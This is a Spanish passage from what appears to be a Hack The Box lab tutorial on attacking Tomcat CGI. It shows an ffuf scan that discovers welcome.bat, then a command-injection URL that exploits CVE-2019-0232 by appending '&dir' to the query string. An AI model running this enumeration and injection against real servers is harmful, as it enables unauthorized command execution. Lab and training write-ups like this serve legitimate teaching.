 ### **Extensiones borrosas - .Bat**

Atacando a Tomcat CGI

```
xnoxos@htb[/htb]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.204.227:8080/cgi/FUZZ.bat
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 81, Words: 14, Lines: 2, Duration: 234ms]
    * FUZZ: welcome

:: Progress: [4614/4614] :: Job [1/1] :: 226 req/sec :: Duration: [0:00:20] :: Errors: 0 ::

```

Navegar por la URL descubierta en`http://10.129.204.227:8080/cgi/welcome.bat`Devuelve un mensaje:

Código:TXT

```
Welcome to CGI, this section is not functional yet. Please return to home page.

```

---

# **Explotación**

Como se discutió anteriormente, podemos explotar`CVE-2019-0232`Al agregar nuestros propios comandos mediante el uso del separador de comandos por lotes`&`. Ahora tenemos una ruta de script CGI válida descubierta durante la enumeración en`http://10.129.204.227:8080/cgi/welcome.bat`

Código:http

```
http://10.129.204.227:8080/cgi/welcome.bat?&dir

```
